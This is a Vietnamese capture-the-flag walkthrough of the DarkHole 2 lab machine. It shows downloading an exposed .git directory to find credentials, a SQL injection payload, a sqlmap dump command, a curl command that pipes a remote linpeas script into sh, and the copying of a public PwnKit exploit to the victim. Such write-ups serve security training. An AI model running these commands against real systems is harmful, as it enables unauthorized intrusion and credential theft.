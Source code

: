 ## Step 1
netdiscover để tìm ip của victim

![image](https://user-images.githubusercontent.com/97771705/225805841-85f266be-c64b-4b53-95a5-cc1f1f722dca.png)

tìm các port

![image](https://user-images.githubusercontent.com/97771705/225805936-100a2dcb-6c7e-488d-b179-b753690af67a.png)

Truy cập vào darkhole2 

![image](https://user-images.githubusercontent.com/97771705/225806006-ba48ed03-1338-4451-9d9e-6ce931973de8.png)

Sử dụng dirsearch, tìm được khá nhiều trang web

![image](https://user-images.githubusercontent.com/97771705/225806267-66d1a618-c75b-44f4-8de1-ed27f2f264c3.png)

Có trang login.php.... Nhưng k có register :)

![image](https://user-images.githubusercontent.com/97771705/225806877-a701701c-baa3-47f5-a213-3773d92756e4.png)

Ngoài ra còn có url /.git

![image](https://user-images.githubusercontent.com/97771705/225806957-42d1d0b9-36a9-4121-b816-45bbdb9ad6b2.png)

Down về coi thử 

> wget -r http://192.168.77.250/.git

![image](https://user-images.githubusercontent.com/97771705/225808080-cac03a26-8b51-40c0-8025-fc4148bee746.png)

Sử dụng lệnh git log để xem lịch sử các commit trong repository

![image](https://user-images.githubusercontent.com/97771705/225808243-257c40be-d48a-43ea-b38b-ed66c9237022.png)

Ta thấy ở lệnh thứ 2, author đã thêm login.php với default credentials

Sử dụng lệnh git diff để so sánh sự khác nhau giữa 2 commit, điền 1 tham số là hash của lệnh thứ 2 để mặc định so sánh nó với commit cuối cùng (muốn so sánh 2 commit thì điền tham số hash của từng lệnh)

> git diff a4d900a8d85e8938d3601f3cef113ee293028e10

Nhấn giữ arrow key down để đọc hết các phần bị thay đổi. Khí kéo đến trang login.php thì phát hiện infomation disclosure 

![image](https://user-images.githubusercontent.com/97771705/225810416-2e69a185-9fd3-4818-9d5b-4a47f412850b.png)

Đây chính là acc của trang login.php

Login thử, và boom !!!

![image](https://user-images.githubusercontent.com/97771705/225810568-da039043-7f20-4d31-a8e8-dcdea1b8eba0.png)

## Step 2
Tại bước này cứ nghĩ là có IDOR vì change id=2,3,4 ... đều được hết. Nhưng không có cái trang nào có thông tin nữa :(

Thử 1 paylaod đơn giản xem có bị dính SQLi không

> ' order by 7 -- -

Khi order by 7 thì trang bị lỗi :) -> dính SQLi rồi

![image](https://user-images.githubusercontent.com/97771705/225812296-1ef5d23e-aba7-42f5-af85-db087c621dea.png)

Sử dụng sqlmap để dò thôi :)

> sqlmap -u "http://192.168.77.250/dashboard.php?id=1" --cookie="PHPSESSID=mm3m2qe16hm964aoqlq4kdkfe7" --dump

(Dump sử dụng để truy xuất và lấy dữ liệu từ các bảng của cơ sở dữ liệu bằng cách thực hiện các truy vấn SQL thích hợp)

Database là mysql 

![image](https://user-images.githubusercontent.com/97771705/225816170-1f0cea10-8134-43c0-9e04-f274205db324.png)

Có 2 cách khai thác là UNION attack và time based

![image](https://user-images.githubusercontent.com/97771705/225816264-60bd7b1e-c82b-40f3-9e05-c3b3f1ae3f43.png)

Database có 2 table, table user không có gì đặc biệt

![image](https://user-images.githubusercontent.com/97771705/225816453-76f32182-3de2-4d07-9050-cf66475dde10.png)

Nhưng tables ssh lại có username và pass để ssh 

![image](https://user-images.githubusercontent.com/97771705/225816570-78f6e3a0-3cc4-427f-a1a1-d2ad1e0c1032.png)

Thử ssh

![image](https://user-images.githubusercontent.com/97771705/225816689-e22c661e-87a9-4b16-ac3b-d24c0b009d05.png)

Flag đầu: DarkHole{'This_is_the_life_man_better_than_a_cruise'}

![image](https://user-images.githubusercontent.com/97771705/225816888-e01d2566-1625-4aa0-b3e0-24dabf37afb3.png)

## Step 3
Sử dụng linpeas để check CVE. Command tại https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

>curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

Có 2 CVE.. thử cái đầu xem nào :)

![image](https://user-images.githubusercontent.com/97771705/225817364-0d66ed5f-1b25-4608-b666-2b0a6aa667c0.png)

Tìm thấy code exploit trên github https://github.com/berdav/CVE-2021-4034

Down về rồi make, sau đó copy folder sang máy victim

![image](https://user-images.githubusercontent.com/97771705/225852696-1d60a865-5979-4274-91a1-d6bdb9a14c59.png)

>scp -r CVE-2021-4034-main/ jehad@192.168.77.250:/tmp

![image](https://user-images.githubusercontent.com/97771705/225852060-8a499448-8a7b-43fa-b030-a30355df835f.png)

![image](https://user-images.githubusercontent.com/97771705/225852121-121befeb-d093-47d5-b783-cee4fddd8e4b.png)

Xin nhẹ flag cuối :) : DarkHole{'Legend'}

![image](https://user-images.githubusercontent.com/97771705/225853055-9b774122-84b1-41ad-a7e8-32d8fa2a6ab3.png)

